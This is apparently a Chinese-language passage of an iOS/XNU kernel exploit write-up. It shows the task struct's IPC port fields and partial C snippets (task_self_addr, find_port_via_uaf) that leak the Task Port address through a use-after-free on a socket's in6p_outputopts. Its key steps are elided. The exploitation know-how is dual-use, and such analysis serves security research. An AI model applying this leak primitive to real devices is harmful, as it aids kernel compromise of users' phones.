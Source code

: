 ```c
	struct ipc_port *itk_nself;	/* not a right, doesn't hold ref */
	struct ipc_port *itk_sself;	/* a send right */
	struct exception_action exc_actions[EXC_TYPES_COUNT];
		 			/* a send right each valid element  */
	struct ipc_port *itk_host;	/* a send right */
	struct ipc_port *itk_bootstrap;	/* a send right */
	struct ipc_port *itk_seatbelt;	/* a send right */
	struct ipc_port *itk_gssd;	/* yet another send right */
	struct ipc_port *itk_debug_control; /* send right for debugmode communications */
	struct ipc_port *itk_task_access; /* and another send right */ 
	struct ipc_port *itk_resume;	/* a receive right to resume this task */
	struct ipc_port *itk_registered[TASK_PORT_REGISTER_MAX];
					/* all send rights */

	struct ipc_space *itk_space;
	...
};
```

简单来说，`Task Port`是任务本身的Port，使用`mach_task_self`或`mach_task_self()`都可以获取到它，我可以利用它做很多事情，下面利用代码中的函数`find_port_via_uaf()`第一个参数就是通过调用函数`mach_task_self()`获取的

泄露`Task Port`的流程如下

```c
self_port_addr = task_self_addr(); // port leak primitive
```

这里还用到了缓存机制

```c
uint64_t task_self_addr() {
    static uint64_t cached_task_self_addr = 0;
    // 判断是否获取过Task Port地址
    if (cached_task_self_addr)
        return cached_task_self_addr;   // 返回缓存的Task Port地址
    else
        return find_port_via_uaf(mach_task_self(), MACH_MSG_TYPE_COPY_SEND);
}
```

先获取一个存在漏洞的Socket，然后填充释放掉的内存并利用`inp->in6p_outputopts`读取数据

```c
uint64_t find_port_via_uaf(mach_port_t port, int disposition) {
    int sock = get_socket_with_dangling_options();
    
    // 填充释放掉的内存并利用inp->in6p_outputopts读取数据
		...
    
    close(sock);
    return 0;
}
```
